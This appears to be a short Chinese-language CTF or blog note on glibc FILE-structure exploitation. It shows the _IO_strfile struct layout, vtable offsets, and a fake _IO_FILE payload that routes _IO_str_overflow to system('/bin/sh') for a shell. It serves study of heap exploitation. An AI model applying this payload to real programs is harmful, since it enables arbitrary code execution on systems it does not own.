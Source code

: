 _IO_strfile

```
typedef struct _IO_strfile_
`{`
  struct _IO_streambuf _sbf;
  struct _IO_str_fields _s;
`}` _IO_strfile;

struct _IO_streambuf //看道这个就想起了 _IO_FILE_plus
`{`
  struct _IO_FILE _f;
  const struct _IO_jump_t *vtable;
`}`;
struct _IO_str_fields
`{`
  _IO_alloc_type _allocate_buffer;
  _IO_free_type _free_buffer;
`}`;
```

[![](https://raw.githubusercontent.com/leave-Devour/leave-devour.github.io/master/images/image-20200629000116815.png)](https://raw.githubusercontent.com/leave-Devour/leave-devour.github.io/master/images/image-20200629000116815.png)

那 _IO_FILE_plus的vtable就在0xd8，然后0xe0下面就是 _allocate_buffer

lock要指向一个内存值为0的地方

payload：

```
rdi = bin/sh的地址

_flags = 0,
_IO_read_ptr = 0,
_IO_read_end = 0,
_IO_read_base = 0,
_IO_write_base = (rdi-100)/2,
_IO_write_ptr = 0,
_IO_write_end = 0,
_IO_buf_base = 0,
_IO_buf_end = (rdi-100)/2,
_IO_save_base = 0,
_IO_backup_base = 0,
_IO_save_end = 0,
_IO_marker = 0,
_IO_chain = 0,
_fileno = 0,
_lock = [memery]=&gt;0
vtable  = _IO_str_overflow +8
rip =&gt;system
```

参考：

[FILE_Exploit](https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/)

